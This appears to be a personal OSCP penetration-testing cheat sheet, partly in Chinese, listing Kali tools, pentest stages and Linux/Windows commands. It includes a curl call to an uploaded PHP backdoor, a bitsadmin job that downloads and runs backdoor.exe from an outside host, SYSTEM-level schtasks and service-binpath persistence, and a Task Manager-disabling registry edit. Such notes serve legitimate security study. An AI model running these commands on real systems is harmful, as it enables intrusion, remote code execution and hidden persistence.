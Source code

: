 # Foundation

## Kali

### hosts

```bash
# OSCP VPN
51.79.170.192   vpn-pool1.offseclabs.com
```

### Tools

#### information gathering

burpsuite, dirsearch, gobuster

#### vulnerability scanning

Nessus，nikto, wpscan

#### exploit framework

BeEF, metasploit

#### reverse shell

rsg

#### privilege escalation

mingw-w64, x86_64-linux-gnu-gcc,

#### AV_Evasion

wine, shellter, hoaxshell

#### general

oletools
wsgidav
swaks

tcvps
shadowsocks
Parallels: Lock screen time

## pentest process

A typical penetration test comprises the following stages:

- Defining the Scope
- Information Gathering
- Vulnerability Detection
- Initial Foothold
- Privilege Escalation
- Lateral Movement
- Reporting/Analysis
- Lessons Learned/Remediation

## Linux

### find

```shell
touch root_auto_schedule.sh
sudo chown root root_auto_schedule.sh
sudo chmod o+w root_auto_schedule.sh
sudo find / -user root -type f -perm -o=w -iname '*.sh' 2>/dev/null
```

### ss

```shell
ss -aptu
```

### curl

```shell
curl http://192.168.176.11/project/uploads/users/254478-backdoor.php --data-urlencode "cmd=which nc"
```

## Windows

### cmd & powershell

#### get-childitem

```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

#### dir

```powershell
dir /a
dir /s *.exe /p
```

#### forfiles

```shell
forfiles /p c:\windows /s /m notepad.exe /c "cmd /s echo @path @fdate @ftime"
```

#### attrib

```shell
attrib -h local_hide.txt
```

#### icaacls

```shell
icacls local_hide.txt /grant Everyone:F
```

### reg

reg 是Windows命令行和脚本中用来操纵注册表的命令。reg 命令的全称是 "Registry Editor" 的缩写，它允许用户在命令行界面中执行注册表操作，如添加、修改、删除注册表键和值。

注册表是Windows操作系统中一个重要的数据库，存储了系统设置和配置信息，包括硬件、软件、用户偏好和系统设置等。通过 reg 命令，可以直接对注册表进行查询和更改，这对于系统管理和故障排除非常有用。

```shell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg add "hkcu\software\microsoftware\windows\currentversion\policies\system" /v disabletaskmgr /t reg_dword /d "1" /f
```

### bitsadmin

bitsadmin是一个Windows命令行工具，用于管理后台智能传输服务（Background Intelligent Transfer Service，简称BITS）。BITS是一项Windows服务，允许文件在网络上以异步方式传输，通常用于在用户不注意的情况下传输文件，如Windows更新或其他应用程序的数据更新。

bitsadmin 工具提供了一系列的命令来创建、监视和控制BITS作业。作业是由一个或多个文件传输组成的，并且可以根据网络条件动态地调整速度，这样在网络使用率低的时候可以更快地传输数据，而在网络繁忙时则减慢速度，避免占用过多带宽。

```shell
bitsadmin /list /allusers /verbose
bitsadmin /info xxx /verbose

bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://1.1.1.1/backdoor.exe" "c:\windows\temp\backdoor.exe"
bitsadmin /SetNotifyCmdLine backdoor "cmd.exe /c c:\windows\temp\backdoor.exe" NULL
bitsadmin /Setminretrydelay backdoor 1
bitsadmin /resume backdoor
```

### schtasks

schtasks 是Windows操作系统中用来创建、删除、查询、更改和运行系统任务计划的命令行工具。任务计划可以用来定时运行脚本或程序，执行系统维护任务，或者自动执行重复的作业。

```shell
schtasks /create /tn 任务名称 /tr 任务运行的命令 /sc 计划类型 /mo 修饰参数 /d 天 /st 开始时间 /ru 运行用户
```

```shell
schtasks /query /fo LIST /v
schtasks /create /tn "backdoor" /tr "c:\windows\temp\backdoor.exe" /sc minute /mo 1 /ru "system"
schtasks /run /tn "backdoor"
```

### sc

sc 是Windows操作系统中用来管理服务的命令行工具。sc 命令可以用来创建、删除、查询、更改和控制服务，如启动、停止、暂停和恢复服务。

```shell
sc query wsearch
sc qc wsearch
sc config wsearch binpath= "cmd.exe /c c:\windows\temp\backdoor.exe"
sc start wsearch
```

### SysinternalsSuit

- PsInfo64.exe /accepteula

## 要点总结

- 全端口扫描（分段循环）
- 扫指纹（应用、版本、title、SNMP）
- 突破边界（GithubEXP、钓鱼邮件、PDF文件、CMS、枚举字典）
- WEB漏洞（SQLi、LFI、上传、RCE、遍历）
- 密码爆破（同密码、+1、用户名字典、密码喷射）
- 穿透内网（回连端口、正向侦听、busybox）
- 上传文件（FullTTY、WEB、SSH、SMB-“net use \\kali\share /user:kali kali”）
- 本地提权（PEAS、本地服务、pspy、分开编译、土豆）
- 域内移动（SPN、mimikatz、WMIC、WinRM、RDP）
- 本地信息收集（地点、应用名称）
